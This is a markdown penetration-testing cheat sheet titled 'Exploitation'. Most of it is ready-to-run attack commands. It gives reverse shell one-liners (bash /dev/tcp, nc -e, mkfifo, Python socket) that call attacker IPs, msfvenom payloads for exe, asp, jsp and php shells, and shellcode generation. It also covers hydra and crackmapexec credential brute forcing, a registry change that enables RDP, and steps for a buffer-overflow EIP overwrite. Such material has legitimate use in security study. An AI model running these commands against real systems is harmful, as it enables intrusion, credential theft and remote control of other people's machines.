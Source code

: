 ```yaml
---
title: Exploitation
excerpt: "This is a guide for exploitation"
last_modified_at: 13-01-2022
categories:
- guide
tags:  
- pentest
- exploitation
image: /assets/images/cheatsheet/exploitation.jpg
---
```

## Public exploits
Links:
- [Exploitdb](www.exploit-db.com)
- [packetstormysecurity](packetstormysecurity.com)
- [securityfocus](securityfocus.com)
- [CVE Mitre](cve.mitre.org/cve/search_cve_list.html)

### Searchsploit
```bash
searchsploit webmin
searchsploit webmin —exclude="php|Dans"
searchsploit -e webmin :
searchsploit ipfire —id -m 42149 
```  

### **Important!**
- **Always check the payloads.**
- Check the dependencies libs,dll's...
- Always test before execute in the target.  

## Wordlists
* [Seclist](https://github.com/danielmiessler/SecLists)
* [assetnote](https://wordlists.assetnote.io/)  

## Reverse shell
```bash
nc -nlvp 4444 # Open port

bash -i >& /dev/tcp/172.100.50.0/4444 0>&1
nc -e /bin/bash 172.100.50.0 4444
/bin/sh | nc 127.0.0.1 5555
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.100.50.0 4444 >/tmp/f # OpenBSD

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.20.1.21",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.100.50.0 LPORT=4444 -f exe > reverse.exe # Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST="172.100.50.0" LPORT=4444 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="172.100.50.0" LPORT=4444 -f raw > shell.jsp
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.100.50.0 LPORT=4444 -f raw -o shell.php

python3 -c 'import pty; pty.spawn("/bin/sh")' # Interactive shell
perl -e 'exec "/bin/sh";'
ruby: exec "/bin/sh"
```

### Mutations
```bash
john —wordlist=file —rules —stdout > mutacao # New wordlist with variations of the first
nano /etc/john/john.conf → wordlist mode rules # Mutations personalized rules
    # ^[0-9] : 0 to 9 in the begin
    # $[0-9] : 0 to 9 in te final
    # $[@]$[0-9]$[0-9] : Add @ + 2 numbers in the end.

cewl google.com -m 7 # Find every word in the page with the lenght

crunch 10 10 -t rogerio^%% -o wordlist # List based in patterns
    # % : Numbers.
    # ^ : Special character.
    # @ : Lower case character.
    # , : Capital character.
```  

### Key space brute force
All the possible variations.
```bash
crunch 4 4 0123456789 -o pin # All combinations with 4 digits.

crunch 6 6 -f charset.lst numeric -o pin # Use the crunch numeric pattern
```  

## Brute force
```bash 
hydra -v -l rogerio -p admin 172.16.1.60 sbm #SMB
hydra -v -L users.txt -p pass.txt 172.16.1.60 sbm 
hydra -v -L users.txt -P pass.txt -M alvos.txt sbm
hydra -L rdp_users.txt -P rdp_pass.txt rdp://172.16.1.188 -I -t 1 #RDP
hydra -v L users.txt -p admin 172.16.1.5 ssh
hydra -v -L users.txt -P password 172.16.1.5 -t 1 -W 5
    # -s : Set port.
    # -t : Threads.
    # -W : Sleep time beetwen tasks.
```  
### **WinRM**
Link:
* [winrm-penetration-testing]https://www.hackingarticles.in/winrm-penetration-testing/
Windows Remote Management, is a command-line tool that enables administrators to remotely execute the CMD.exe commands using the WS-Management protocol. Port 5985/HTTP, 5986/HTTPS.
Evil-WinRM
```bash
evil-winrm -i 172.16.1.140 -u user -p password
```  

### RDP
Active or disable rdp in windows
- Active
    - reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    - netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
- Disable
    - reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    - netsh advfirewall firewall set rule group="remote desktop" new enable=No

### crackmaexec
Swiss knife for pentest
```bash
crackmapexec <protocol> <target(s)> -u username -p password

crackmaexec smb 172.16.1.0/24 -u jonh -p 'jonh@10' # Scan the network to the test all logins
crackmaexec smb 172.16.1.60 -u jonh -p 'jonh@10'  -x 'whoami' # Execute this command

crackmaexec ldap 192.168.1.0/24 -u user -p 'jonh@10'
crackmaexec ldap 192.168.1.0/24 -u user -H hashexemple

crackmaexec mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

crackmaexec winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```  

## Buffer overflow

### Pattern offset
```bash
/usr/bin/msf-patter_create -l 2200 # Create pattern
/usr/bin/msf-pattern_offset -l 2200 -q 43396f43 # Find EIP overwrite
```  
### Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.16 lport=443 exitfunc=thread -b "\x00" -f c
```  

### GDB/Linux
```bash
gdb -q ./file
info functions               # Show functions
set disassembly-flavor intel # Set flavor
disas main                   # Dissasembly specific funtion
b* 0x5655621f                # Breakpoint
run < <(python -c 'print "A" * 200') # Input data
i r                          # Show registers(esp,eip,...)
x/16xw $esp                  # Specific memory zone
break main                   # Brakpoint in the funtion
set $eip = 0x56556982        # Jump to specific function/zone
python -c 'print "A" * 136 + "BBBB" + "\x70\x62\x55\x56"' | ./file # Send a specific number, that will allow overwrite and redirect the EIP.
```